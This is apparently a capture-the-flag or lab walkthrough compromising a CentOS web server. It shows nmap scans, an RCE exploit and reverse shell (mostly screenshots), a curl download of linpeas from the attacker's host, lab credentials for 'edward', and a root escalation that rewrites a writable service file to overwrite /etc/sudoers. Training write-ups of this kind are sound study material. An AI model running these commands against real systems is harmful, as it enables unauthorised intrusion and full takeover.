Nmap scan
```sh
nmap -p- --min-rate 5000 -T4 -Pn 10.80.142.43              
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-09 09:35 IST
Nmap scan report for 10.80.142.43
Host is up (0.79s latency).
Not shown: 65486 filtered tcp ports (no-response), 47 filtered tcp ports (host-prohibited)
PORT      STATE SERVICE
22/tcp    open  ssh
12340/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 42.04 seconds
```

```sh
nmap -sC -sV -T4 -Pn -p 22,12340 10.80.142.43
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-09 09:37 IST
Nmap scan report for 10.80.142.43
Host is up (0.16s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 09:23:62:a2:18:62:83:69:04:40:62:32:97:ff:3c:cd (RSA)
|   256 33:66:35:36:b0:68:06:32:c1:8a:f6:01:bc:43:38:ce (ECDSA)
|_  256 14:98:e3:84:70:55:e6:60:0c:c2:09:77:f8:b7:a6:1c (ED25519)
12340/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: We&#39;ve got some trouble | 404 - Resource not found

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.07 seconds
```
If we just navigate to the site on port 12340, we are presented with a 404 error


Directory bruteforcing




Let’s use searchsploit and see if we can find an exploit.





In the code, we need to remove the proxy section. Still it showed errors, so we need to do multiple minor changes in the exploit in order to work it properly.
So it successfully did a RCE and uploaded a shell on the host and we tried id command.


After uploading shell from CLI we weren't unable to ,locate it in browser so did the same using burp and we succeeded.








Let’s try reverse shell. I browse to revshells.com and copy reverse shell one liner with url encode.


nc started

paste the reverse shell into url and send it

Shell spawned


We got connection. Let’s use linpeas to further enumerate the box
```sh
curl http://192.168.161.2:8000/linpeas.sh -o ls.sh
```





edward : veerUffIrangUfcubyig
I found password, Let’s use them against Edward.

Our attempt to authenticate edward got failed. Let’s enumerate once again to find any foothold on box.

If we cat /etc/fstab, we will find a username and password.


edward : FrobjoodAdkoonceanJa
We successfully authenticated as edward. Let’s authenticate on ssh port.



If we run sudo -l, we will see that we can reboot the system

The last time when we run `linpeas.sh` we found that we have write permissions on a service file:

If we missed this during linpeas observation we can do following 
Now we are going to run a find command looking for all files that are writable, with a max-depth of 4 and removing all Permission denied errors.
```sh
find / -type f -maxdepth 4 -writable 2>&1 | grep -v 'Permission denied'
```






Now we will edit the file with vim, press i to get into Insert Mode, and replace the following line.
```sh
/bin/sh -c 'echo "edward ALL=(root) NOPASSWD: ALL" > /etc/sudoers'
```

Now, lets reboot the system.


Now, after we reconnect via ssh, we can run sudo su, and become root.



